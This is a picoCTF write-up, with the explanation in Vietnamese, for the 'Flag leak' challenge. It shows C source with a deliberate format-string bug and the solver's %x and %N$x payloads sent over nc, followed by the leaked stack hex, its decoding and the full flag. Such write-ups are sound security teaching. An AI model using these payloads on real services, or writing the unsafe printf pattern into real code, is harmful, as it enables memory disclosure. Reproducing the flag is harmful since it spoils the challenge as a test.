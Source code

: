 ## Flag leak
# Description:
Story telling class 1/2

I'm just copying and pasting with this `program`. What can go wrong? You can view source `here`. And connect with it using:

`nc saturn.picoctf.net 64250`

# Source 
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
# Solution:
* Đầu tiên, ta biết được đây là file 32 bit
```
└─$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=17bb7adc72aff4022d6a1c451eb9adcf34df2f8c, for GNU/Linux 3.2.0, not stripped
```
* Mở source lên và thấy format string ở dòng print(story).
* Thử nhập vào chuỗi `%x%x%x%x%x` và đúng như mong đợi, chương trình đã in ra các giá trị hex trong stack.
```
└─$ nc saturn.picoctf.net 64250
Tell me a story and then I'll tell you one >> %x%x%x%x%x
Here's a story -
ffccee60ffccee8080493467825782578257825
```

* Nhập vào chuỗi 127 kí tự %x để leak hết trong flag, ta thu được dãy hex:
```
└─$ nc saturn.picoctf.net 64078
Tell me a story and then I'll tell you one >> %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Here's a story -
ffead6c0.ffead6e0.8049346.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.252e78.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.
```
* Decode dãy này thì thu được flag gần hoàn chỉnh `ocip{FTCk43L_gn1g4lFff0_4tS_` (in ở dạng hex nên sẽ bị đảo 4 byte một, săp xếp lại ta được `picoCTF{L34k1ng_Fl4g_0ff_St4`). Vấn đề ở đây là dùng story và bị giới hạn độ dài chuỗi in ra nên sẽ không thể in ra hết các giá trị trong stack, nên ta tiếp tục leak những giá trị ở sau
```
└─$ nc saturn.picoctf.net 64078 
Tell me a story and then I'll tell you one >> %42$x.%43$x.%44$x.%45$x.%46$x.%47$x
Here's a story -
3474535f.395f6b63.32653939.7d343238.fbad2000.e9c41d00
```
* Decode và thu được phần cuối của flag `4tS_9_kc2e99}428` => `_St4ck_eb9b46a2}`

Flag hoàn chỉnh: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_eb9b46a2}` 
